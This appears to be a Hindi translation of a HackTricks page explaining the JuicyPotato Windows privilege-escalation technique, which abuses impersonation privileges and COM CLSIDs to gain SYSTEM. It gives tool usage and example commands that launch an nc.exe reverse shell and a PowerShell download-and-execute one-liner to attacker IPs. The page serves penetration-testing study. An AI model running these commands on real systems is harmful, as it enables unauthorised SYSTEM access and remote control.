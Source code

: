 # JuicyPotato

<details>

<summary><strong>जीरो से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी को HackTricks में विज्ञापित देखना चाहते हैं**? या क्या आपको **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का एक्सेस चाहिए**? [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) की जाँच करें!
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह।
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें।
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **मुझे** **Twitter** पर **फॉलो** करें 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**।**
* **अपने हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**hacktricks रेपो**](https://github.com/carlospolop/hacktricks) **और** [**hacktricks-cloud रेपो**](https://github.com/carlospolop/hacktricks-cloud) **को फॉलो** करें।

</details>

{% hint style="warning" %}
**JuicyPotato** Windows Server 2019 और Windows 10 बिल्ड 1809 के ऊपर काम नहीं करता है। हालांकि, [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato) का उपयोग किया जा सकता है ताकि **उसी विशेषाधिकारों का उपयोग करें और `NT AUTHORITY\SYSTEM` स्तर का एक्सेस प्राप्त करें**। _**जांचें:**_
{% endhint %}

{% content-ref url="roguepotato-and-printspoofer.md" %}
[roguepotato-and-printspoofer.md](roguepotato-and-printspoofer.md)
{% endcontent-ref %}

## Juicy Potato (स्वर्ण विशेषाधिकारों का दुरुपयोग) <a href="#juicy-potato-abusing-the-golden-privileges" id="juicy-potato-abusing-the-golden-privileges"></a>

_**RottenPotatoNG**_ [_का एक चीनी रूपांतरण, थोड़ी मिठास के साथ, अर्थात एक और स्थानीय विशेषाधिकार उन्नति उपकरण, विंडोज सेवा खातों से NT AUTHORITY\SYSTEM तक_]

#### आप juicypotato को [यहाँ से डाउनलोड कर सकते हैं](https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts)

### सारांश <a href="#summary" id="summary"></a>

**[Juicy-potato Readme से](https://github.com/ohpe/juicy-potato/blob/master/README.md):**

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) और इसके [वेरिएंट्स](https://github.com/decoder-it/lonelypotato) [`BITS`](https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799\(v=vs.85\).aspx) [सेवा](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126) पर आधारित विशेषाधिकार उन्नति श्रृंखला का उपयोग करता है जिसमें `127.0.0.1:6666` पर MiTM सुनने वाला होता है और जब आपके पास `SeImpersonate` या `SeAssignPrimaryToken` विशेषाधिकार होते हैं। एक विंडोज निर्माण समीक्षा के दौरान हमने एक सेटअप पाया जहां `BITS` को इच्छित रूप से अक्षम किया गया था और पोर्ट `6666` लिया गया था।

हमने [RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) को शस्त्रीकृत करने का निर्णय लिया: **Juicy Potato का स्वागत करें**।

> सिद्धांत के लिए, [Rotten Potato - सेवा खातों से सिस्टम तक विशेषाधिकार उन्नति](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) देखें और लिंक और संदर्भों की श्रृंखला का पालन करें।

हमने पाया कि, `BITS` के अलावा हम कई COM सर्वरों का दुरुपयोग कर सकते हैं। उन्हें बस यह करना है:

1. वर्तमान उपयोगकर्ता द्वारा instantiable होना, सामान्य रूप से एक "सेवा उपयोगकर्ता" जिसके पास अनुकरण विशेषाधिकार होते हैं
2. `IMarshal` इंटरफेस को कार्यान्वित करना
3. उच्च स्तरीय उपयोगकर्ता के रूप में चलाना (SYSTEM, प्रशासक, ...)

कुछ परीक्षण के बाद हमने कई [रोचक CLSID](http://ohpe.it/juicy-potato/CLSID/) की एक व्यापक सूची प्राप्त और परीक्षण किया। विभिन्न विंडोज संस्करणों पर।

### Juicy विवरण <a href="#juicy-details" id="juicy-details"></a>

JuicyPotato आपको निम्नलिखित करने की अनुमति देता है:

* **लक्ष्य CLSID** _आप किसी भी CLSID को चुन सकते हैं।_ [_यहाँ_](http://ohpe.it/juicy-potato/CLSID/) _आप OS द्वारा संगठित सूची पा सकते हैं।_
* **COM सुनने का पोर्ट** _आपकी पसंद के अनुसार COM सुनने का पोर्ट परिभाषित करें (मार्शल किया हार्डकोडेड 6666 के बजाय)_
* **COM सुनने का IP पता** _किसी भी IP पर सर्वर बाँधें_
* **प्रक्रिया निर्माण मोड** _अनुकरण करने वाले उपयोगकर्ता की विशेषाधिकारों के आधार पर आप `CreateProcessWithToken` (जरूरत है `SeImpersonate`), `CreateProcessAsUser` (जरूरत है `SeAssignPrimaryToken`), `दोनों` में से चुन सकते हैं।_
* **लॉन्च करने की प्रक्रिया** _यदि शोषण सफल होता है तो एक executable या स्क्रिप्ट लॉन्च करें_
* **प्रक्रिया तर्क** _लॉन्च की गई प्रक्रिया के तर्क को अनुकूलित करें_
* **RPC सर्वर पता** _एक छिपी दृष्टिकोण के लिए आप एक बाह्य RPC सर्वर से प्रमाणित कर सकते हैं_
* **RPC सर्वर पोर्ट** _उपयोगी है अगर आप एक बाह्य सर्वर से प्रमाणित होना चाहते हैं और फ़ायरवॉल पोर्ट `135` को अवरुद्ध कर रहा है..._
* **TEST मोड** _मुख्य रूप से परीक्षण के उद्देश्यों के लिए, अर्थात CLSIDs का परीक्षण। यह DCOM बनाता है और टोकन का उपयोगकर्ता प्रिंट करता है। टेस्टिंग के लिए यहाँ देखें_ [_यहाँ_](http://ohpe.it/juicy-potato/Test/)

### उपयोग <a href="#usage" id="usage"></a>
```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
```
### अंतिम विचार <a href="#final-thoughts" id="final-thoughts"></a>

**[Juicy Potato Readme से](https://github.com/ohpe/juicy-potato/blob/master/README.md#final-thoughts):**

यदि उपयोगकर्ता के पास `SeImpersonate` या `SeAssignPrimaryToken` विशेषाधिकार हैं तो आप **SYSTEM** हैं।

इन सभी COM सर्वरों के दुरुपयोग को रोकना लगभग असंभव है। आप इन ऑब्जेक्ट्स की अनुमतियों को `DCOMCNFG` के माध्यम से संशोधित करने के बारे में सोच सकते हैं, लेकिन शुभकामनाएं, यह कठिन होगा।

वास्तविक समाधान है कि `* SERVICE` खातों के तहत चलने वाले संवेदनशील खातों और एप्लिकेशनों को सुरक्षित रखें। `DCOM` को रोकना निश्चित रूप से इस उत्पीड़न को रोकेगा लेकिन इसके पीछे के ऑपरेटिंग सिस्टम पर गंभीर प्रभाव हो सकते हैं।

स्रोत: [http://ohpe.it/juicy-potato/](http://ohpe.it/juicy-potato/)

## उदाहरण

ध्यान दें: कोशिश करने के लिए CLSIDs की सूची के लिए [इस पृष्ठ](https://ohpe.it/juicy-potato/CLSID/) पर जाएं।

### एक nc.exe रिवर्स शैल लें
```
c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```
### पावरशेल रेव
```
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```
### नए CMD लॉन्च करें (यदि आपके पास RDP एक्सेस है)

![](<../../.gitbook/assets/image (37).png>)

## CLSID समस्याएं

अक्सर, JuicyPotato द्वारा उपयोग किया जाने वाला डिफ़ॉल्ट CLSID **काम नहीं करता** है और एक्सप्लॉइट विफल हो जाता है। सामान्यत: एक स्पष्ट ऑपरेटिंग सिस्टम के लिए कई प्रयासों की आवश्यकता होती है एक **काम करने वाला CLSID** खोजने के लिए। एक विशिष्ट ऑपरेटिंग सिस्टम के लिए प्रयास करने के लिए CLSIDs की सूची प्राप्त करने के लिए आपको इस पृष्ठ पर जाना चाहिए:

{% embed url="https://ohpe.it/juicy-potato/CLSID/" %}

### **CLSIDs की जाँच**

सबसे पहले, आपको juicypotato.exe के अलावा कुछ एक्जीक्यूटेबल्स की आवश्यकता होगी।

[Join-Object.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/utils/Join-Object.ps1) डाउनलोड करें और इसे अपने PS सत्र में लोड करें, और [GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1) डाउनलोड और एक्सीक्यूट करें। उस स्क्रिप्ट से संभावित CLSIDs की एक सूची बनाएगा।

फिर [test\_clsid.bat ](https://github.com/ohpe/juicy-potato/blob/master/Test/test\_clsid.bat)(CLSID सूची और juicypotato एक्जीक्यूटेबल के लिए पथ बदलें) डाउनलोड करें और इसे एक्सीक्यूट करें। यह हर CLSID की कोशिश करना शुरू कर देगा, और **जब पोर्ट नंबर बदल जाएगा, तो इसका मतलब होगा कि CLSID काम कर गया है**।

**पैरामीटर -c** का उपयोग करके **काम करने वाले CLSIDs की जाँच करें**

## संदर्भ
* [https://github.com/ohpe/juicy-potato/blob/master/README.md](https://github.com/ohpe/juicy-potato/blob/master/README.md)

<details>

<summary><strong>जीर्ण से शुरू करके AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी का हैकट्रिक्स में विज्ञापन देखना चाहते हैं**? या क्या आपको **PEASS के नवीनतम संस्करण या हैकट्रिक्स को पीडीएफ़ में डाउनलोड करने का एक्सेस चाहिए**? [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) की जाँच करें!
* खोजें [**द पीएस फैमिली**](https://opensea.io/collection/the-peass-family), हमारा विशेष [**एनएफटीज़**](https://opensea.io/collection/the-peass-family) संग्रह
* प्राप्त करें [**आधिकारिक पीएस और हैकट्रिक्स स्वैग**](https://peass.creator-spring.com)
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या मुझे **ट्विटर** पर फॉलो करें 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **अपने हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स रेपो** में पीआर जमा करके [**हैकट्रिक्स रेपो**](https://github.com/carlospolop/hacktricks) **और** [**हैकट्रिक्स-क्लाउड रेपो**](https://github.com/carlospolop/hacktricks-cloud)।

</details>
